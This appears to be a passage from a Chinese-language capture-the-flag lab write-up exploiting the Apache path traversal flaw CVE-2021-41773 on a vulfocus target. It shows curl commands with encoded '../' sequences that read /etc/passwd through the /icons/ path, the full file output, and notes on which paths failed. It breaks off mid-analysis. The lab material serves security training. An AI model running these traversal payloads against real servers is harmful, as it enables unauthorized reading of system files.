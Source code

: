 **执行结果分析**:
所有通过 `/cgi-bin/`路径的攻击尝试都返回了 `500 Internal Server Error`，这表明：

1. **CGI配置问题**: CGI模块可能没有正确配置或缺少必要的CGI脚本
2. **路径解析问题**: Apache可能对CGI路径下的路径遍历有特殊处理
3. **权限限制**: 可能存在额外的访问控制机制

###### 3.2.2 非CGI路径的直接遍历攻击

CVE-2021-41773不仅限于CGI路径，我们尝试其他映射路径：

```bash
# 尝试通过icons路径进行遍历
curl "http://10.37.133.3:42286/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 尝试通过manual路径进行遍历  
curl "http://10.37.133.3:42286/manual/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 直接根路径尝试
curl "http://10.37.133.3:42286/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

**执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ curl "http://10.37.133.3:42286/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

**攻击结果分析**:

1. ✅ **`/icons/` 路径攻击成功**

   - **状态**: 🎉 完全成功 - 读取到完整的 `/etc/passwd` 文件
   - **编码方式**: 仅使用基础的单层URL编码 `%2e%2e`（不需要双重编码）
   - **技术意义**: 证明CVE-2021-41773不仅限于CGI路径，还影响Apache的静态资源映射
2. 🚫 **`/manual/` 路径被阻止**
